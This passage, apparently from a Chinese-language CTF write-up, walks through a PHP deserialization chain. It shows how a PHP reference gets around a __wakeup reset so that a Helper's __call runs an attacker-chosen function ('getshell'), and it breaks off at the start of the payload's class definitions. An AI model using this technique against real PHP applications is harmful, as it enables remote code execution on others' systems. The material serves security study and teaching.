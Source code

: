 ```php
    public function __wakeup() {
        $this->expired = False;
    }

    public function expired() {
        if ($this->expired) {
            $this->helper->clean($this->key);
            return True;
        } else {
            return False;
        }
    }
}
```

expired 方法会判断内部的 expired 属性是否为 True (注意区分, 一个是方法名一个是类的属性名), 如果为 True 则会调用 helper 的 clean 方法 (实际是 `__call` 方法)

Help 类

```php
class Helper {
    public $funcs;

    public function __construct($funcs) {
        $this->funcs = $funcs;
    }

    public function __call($name, $args) {
        $this->funcs[$name](...$args);
    }
}
```

`__call` 方法会按照传入的 name 从 funcs 数组中取出对应的函数名, 然后将 args 作为参数, 动态调用这个函数, 这里就是最终的利用点, 也就是可以 getshell 的地方

我们如果想要到达 Helper 的 `__call` 方法, 就必须得让 Cache 类的 expired 属性为 True, 但是 Cache 类存在 `__wakeup` 方法, 这就会导致在反序列化刚开始的时候这个 expired 属性会被强制设置为 False, 看起来没有办法绕过

这里引入 PHP  "引用" 的概念, 跟 C 语言类似, 引用是一个类似于指针的东西

```php
$a = 123;
$b = &a; # 将 $a 变量的引用赋值给 $b
```

此时 b 的值就等于 a 的值, 如果 b 被修改, 那么 a 也会被修改, 反之亦然, a 和 b 指向相同的内存地址

那么纵观整个代码, 我们可以让 expired 属性成为某个变量的引用, 这样即使 expired 为 False, 在后续的过程中只要这个被引用的变量被修改为其它值, 那么 expired 也会被修改为相同的值, 只要这个目标值不为 NULL 即可绕过 if 的判断

payload

```php
<?php

class Cache {
    public $key;
    public $value;
    public $expired;
    public $helper;
}

class Storage {
    public $store;
}

class Helper {
    public $funcs;
```